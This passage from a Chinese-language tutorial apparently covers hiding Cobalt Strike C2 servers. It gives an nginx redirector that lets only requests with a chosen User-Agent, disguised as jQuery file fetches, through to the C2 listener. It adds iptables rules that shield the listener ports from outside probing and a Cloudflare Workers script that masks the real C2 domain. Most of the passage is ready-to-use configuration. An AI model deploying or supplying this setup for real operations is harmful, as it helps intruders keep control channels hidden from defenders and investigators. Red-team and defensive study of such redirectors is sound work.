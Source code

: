 同时的话还可以定制化处理location块，使得只有指定URL才能访问，保证了不会被扫到。

以User-Agent来过滤流量

```yml
location ~ ^(/jquery-3\.3\.1\.slim\.min\.js|/jquery-3\.3\.2\.min\.js|/jquery-3\.3\.1\.min\.js|/jquery-3\.3\.2\.slim\.min\.js)$ { if ($http_user_agent != "Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko") { return 302 $REDIRECT_DOMAIN$request_uri; } # 把流量转到CS 监听的 HTTP port(bind) 端口上 # proxy_pass $C2_SERVER; proxy_pass https://192.168.30.10:8080; # If you want to pass the C2 server's "Server" header through then uncomment this line # proxy_pass_header Server; expires off; proxy_redirect off; proxy_set_header Host $host; # 配置nginx 转发源ip proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for; proxy_set_header X-Real-IP $remote_addr; }
```

#### 6.3 配置防火墙

如果cs服务器和配置反向代理的Nginx的服务器是同一台，CS的listener监听的地址是0.0.0.0，

别人依旧可以直接访问我们CS监听的端口而分析出beacon信息，我们应该配置成只能让反向代理套件访问。

以iptables为例：

```yml
iptables -A INPUT -s 127.0.0.1 -p tcp --dport 8443 -j ACCEPT iptables -A INPUT -p tcp --dport 8443 -j DROP
iptables -A INPUT -s 127.0.0.1 -p tcp --dport 8880 -j ACCEPT iptables -A INPUT -p tcp --dport 8880 -j DROP
```

### 7. Cloudflare Workers隐藏域名

这个有点类似域前置，使用Cloudflare Workers可以隐藏我们的真实域名。

添加Works，申请好子域后创建服务，点击快速编辑, 复制如下脚本粘贴：

```yml
 let upstream = 'https://cdn.xxxx.club' # 这里写你的域名 
 addEventListener('fetch', event => { 
    event.respondWith(fetchAndApply(event.request));
    }) 
    async function fetchAndApply(request) { 
        const ipAddress = request.headers.get('cf-connecting-ip') || ''; 
        let requestURL = new URL(request.url); 
        let upstreamURL = new URL(upstream); 
        requestURL.protocol = upstreamURL.protocol; 
        requestURL.host = upstreamURL.host; 
        requestURL.pathname = upstreamURL.pathname + requestURL.pathname; 

        let new_request_headers = new Headers(request.headers); 
        new_request_headers.set("X-Forwarded-For", ipAddress); 
        let fetchedResponse = await fetch( 
            new Request(requestURL, { 
                method: request.method, 
                headers: new_request_headers, 
                body: request.body 
            }) 
        ); 
        let modifiedResponseHeaders = new Headers(fetchedResponse.headers); 
        modifiedResponseHeaders.delete('set-cookie');
        return new Response( 
            fetchedResponse.body, 
            { 
                headers: modifiedResponseHeaders, 
                status: fetchedResponse.status, 
                statusText: fetchedResponse.statusText 
            } 
        ); 
    }
```
